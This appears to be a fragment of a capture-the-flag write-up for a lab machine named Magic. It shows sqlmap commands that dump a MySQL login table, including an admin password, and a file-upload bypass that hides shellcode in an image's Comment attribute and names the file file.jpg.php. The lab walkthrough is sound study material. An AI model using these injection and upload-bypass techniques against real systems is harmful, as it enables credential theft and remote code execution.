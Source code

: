 ```console
[21:03:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL > 5.0.12
```

```console
$ sqlmap -r request.txt -p username --batch --level 5 --risk 3 --dbs
available databases [2]:
[*] information_schema
[*] Magic

$ sqlmap -r request.txt -p username --batch --level 5 --risk 3 -D Magic -T login --dump
Database: Magic
Table: login
[1 entry]
+----+----------------+----------+
| id | password       | username |
+----+----------------+----------+
| 1  | Th3s3usW4sK1ng | admin    |
+----+----------------+----------+
```

### File Upload

- `http://10.10.10.185/upload.php`
- find the uploaded file's web path: `http://10.10.10.185/images/uploads/<pic>.png`

- block procedures: Content-Type, file extension => **whitelist**
- how to bypass? => [File upload bypass - Hacker's Grimoire (gitbook.io)](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass#php-getimagesize), For file uploads which validate image size using php `getimagesize()`, it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as `file.jpg.php`
